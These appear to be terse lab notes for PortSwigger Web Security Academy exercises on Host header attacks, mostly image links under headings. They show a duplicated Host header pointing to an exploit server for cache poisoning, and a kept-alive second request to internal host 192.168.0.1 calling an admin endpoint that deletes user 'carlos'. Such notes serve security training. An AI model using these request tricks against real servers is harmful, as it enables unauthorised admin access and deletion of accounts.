






____
# Web cache poisoning via ambiguous requests


```
Host: 0a4300ef0342c1148188845d00e100e5.h1-web-security-academy.net
Host: exploit-0aa3008c0314c1e4811283cb01df00f2.exploit-server.net
```

# Routing-based SSRF





# SSRF via flawed request parsing



Check connection 



Delete user



# Host validation bypass via connection state attack



First tab
- Path /
- Host: 0a3b00d903aa3c6180777b6f0009004a.h1-web-security-academy.net
- Connection: keep-alive

Second tab
- Path /admin/delete?csrf=hKkau3D86P0GZlrXeFcX5i5XX0azUEio&username=carlos
- Host: 192.168.0.1
